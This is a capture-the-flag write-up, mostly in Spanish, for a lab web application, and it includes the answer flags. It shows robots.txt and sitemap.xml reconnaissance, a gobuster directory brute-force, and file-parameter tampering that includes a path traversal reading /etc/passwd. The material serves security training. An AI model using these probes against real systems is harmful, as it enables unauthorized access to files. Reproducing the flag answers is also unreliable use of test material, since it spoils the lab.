





# Web Application Penetration Testing CTF 1

<p align="center"> 

</p>

## Task 1: Investigate crawling restrictions to reveal hidden clues

1.  **Investigate crawling restrictions to reveal hidden clues**

La primera flag.txt lo encontramos en el fichero **robots.txt**

```
http://target.ine.local/robots.txt
```

<p align="center"> 

</p>

answer: **effeb670f797458a93a28a2c78546e6f**

## Task 2: Analyze the blueprint of the site to uncover valuable navigation insights

2. **Analyze the blueprint of the site to uncover valuable navigation insights.**

En el anterior ejercicio, en el **robots.txt** nos dice que visitemos la siguiente pagina:

```
http://target.ine.local/sitemap.xml
```

<p align="center"> 

</p>

answer: **86c98bfb80014eafaad33a532e1e3c0d**

## Task 3: Locate the secret.txt file using a website vulnerability

3. **Locate the secret.txt file using a website vulnerability.**

En esta ocasión haremos lo siguiente, pasaremos de esto:

```
http://target.ine.local/view_file?file=applicationAttacks.txt
```

a esto

```
http://target.ine.local/view_file?file=secret.txt
```

answer: **2a932843102b4e89bbc3cfe45b0d9864**

## Task 4: Perform a brute-force scan to identify hidden directories

**Perform a brute-force scan to identify hidden directories.**

```
gobuster dir -u http://target.ine.local -w /usr/share/wordlists/dirb/common.txt
```

<p align="center"> 

</p>

```
http://target.ine.local/special
http://target.ine.local/special/flag.txt
```

answer: **a82381072f28496ba5170996ee89721f**

## Task 5: Locate system files that may expose sensitive user information

**Locate system files that may expose sensitive user information.**

```
http://target.ine.local/view_file?file=../../../../etc/passwd
```

<p align="center"> 

</p>

answer: **94a6ecfa006e4086992df9f6a535d720**